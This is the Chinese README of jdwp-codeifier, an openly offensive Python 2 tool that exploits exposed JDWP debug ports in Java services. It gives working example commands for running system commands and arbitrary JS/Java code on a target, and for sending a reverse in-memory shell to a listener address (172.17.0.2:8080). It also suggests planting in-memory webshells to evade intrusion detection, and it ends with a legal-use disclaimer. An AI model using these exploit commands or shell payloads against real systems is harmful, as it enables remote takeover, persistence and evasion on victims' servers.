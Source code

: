 # jdwp-codeifier

## 介绍
对于JDWP漏洞的武器化利用最早可以追溯到2014年的项目：https://github.com/IOActive/jdwp-shellifier ，作者通过Python2实现JDWP协议，以设置断点的方式获取线程上下文从而调用Runtime.getRuntime().exec()执行系统命令

2020年Lz1y借鉴[MSF中的利用方式](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_jdwp_debugger.rb)改写jdwp-shellifier，通过对Sleeping的线程发送单步执行事件，完成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中，项目地址：https://github.com/Lz1y/jdwp-shellifier

2022年r3change基于原版断点方式的jdwp-shellifier进行改写，增加了命令执行的回显，项目地址：https://github.com/r3change/jdwp-shellifier

但JDWP漏洞的利用本身不局限于“命令执行”，而且有时候为了规避入侵检测，或者为了植入内存马等，是需要动态执行Java代码的，所以我基于jdwp-shellifier再次改写了一版进阶的JDWP漏洞利用脚本，改名为jdwp-codeifier，同样使用不需要等待断点的方式且能够动态执行Java/Js代码并获得回显

## 使用
由于原版代码依赖了很多Python2特性，改起来有点费劲，所以这一版依然还是只支持Python2，期待有师傅提交同时兼容Python2/3的PR。

### 用法
```
usage: jdwp-codeifier.py [-h] -t IP [-p Port] [-m Mode] [-c Command/Code]
                         [-a Address] [-l life]

Advanced exploitation script for JDWP by @leixiao, base on @_hugsy_, @Lz1y,
@r3change

optional arguments:
  -h, --help       show this help message and exit
  -t IP            Remote target IP (default: None)
  -p Port          Remote target port (default: 8000)
  -m Mode          command/code/rshell (default: code)
  -c Command/Code  Command or JavaScript Code (default: None)
  -a Address       The address of reverse shell (default: None)
  -l life          The survival time (minute) of the shell when unable to
                   connect to the server (default: 1)
```

### 命令执行
项目也保留了原本的命令执行功能，但命令行参数略有不同，执行 touch /tmp/success：
```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m command -c 'touch /tmp/success'
```
![img.png](README/img.png)

### 代码执行
动态代码执行是通过new javax.script.ScriptEngineManager().getEngineByName("js").eval()实现的，所以语法上是JS代码，但依然可以调用Java方法

执行系统命令并回显：
```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m code -c 'new java.util.Scanner(new java.lang.ProcessBuilder("sh","-c","whoami").start().getInputStream()).useDelimiter("--!@#").next()'
```
![img.png](README/img1.png)


通过JS代码还可以动态定义类，加载外部类，插入内存马等等... 各位就自己发挥了

## 反弹Java内存Shell

https://l3yx.github.io/2023/12/03/%E9%80%9A%E8%BF%87JDWP%E6%BC%8F%E6%B4%9E%E6%B3%A8%E5%85%A5%E4%B8%8D%E4%B8%80%E6%A0%B7%E7%9A%84%E5%86%85%E5%AD%98%E9%A9%AC/#%E5%8F%8D%E5%90%91%E5%86%85%E5%AD%98Shell

```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m rshell -a 172.17.0.2:8080 -l 0.1
# -a 指定接收shell的地址
# -l 指定shell与服务器连接不上时的最大存活时间（分钟）（每隔5秒自动重连）
```
![Alt text](README/img2.png)



## 免责声明
本工具仅面向合法的学习或研究行为。在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
